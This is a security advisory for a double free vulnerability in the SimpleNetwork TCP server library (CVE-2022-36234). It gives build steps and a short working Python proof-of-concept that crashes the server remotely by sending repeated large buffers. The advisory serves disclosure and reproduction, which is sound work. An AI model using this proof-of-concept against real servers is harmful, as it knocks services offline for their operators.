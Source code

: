 # Overview

SimpleNetwork TCP Server commit 29bc615f0d9910eb2f59aa8dff1f54f0e3af4496 was discovered to contain a double free vulnerability which is exploited via crafted TCP packets. Triggering the double free will allow clients to crash any SimpleNetwork TCP server remotely. In other situations, double free vulnerabilities can cause undefined behavior and potentially code execution in the right circumstances.

# Reproduction

To ensure you have the standard build tools required to compile the library, install the following packages (on most systems this will already be installed):

``
sudo apt-get install build-essential git
``

The vulnerability can be reproduced by sending consecutive requrests to the server containing a large buffer of characters in a TCP packet.  First, compile the 'libSimpleNetwork' library and example server provided in the source code:

```
git clone https://github.com/kashimAstro/SimpleNetwork.git
cd SimpleNetwork
git checkout 29bc615f0d9910eb2f59aa8dff1f54f0e3af4496
cd src
make
cd ../example-server
make
```

### Start the example-server:

```
./server 80 1
```

### Save the following python3 proof of concept script to a file (modify the host as needed):
```
import socket

host = "localhost"
port = 80                   # The same port as used by the server
buf = b'A'*10000

try:
    for i in range(50):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.sendall(buf)
        data = s.recv(1024)
        s.close()
        print('Received', repr(data))
except:
    print("Completed...")
```

### Execute the python3 script:

```
python3 poc.py
```

### Crash verification:
If successful, the server will crash and you will see the following output from the application:
```
segmentation fault  ./server 80 1
```


# References

* https://owasp.org/www-community/vulnerabilities/Doubly_freeing_memory
* https://cwe.mitre.org/data/definitions/415.html
* https://github.com/kashimAstro/SimpleNetwork/issues/22
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-36234
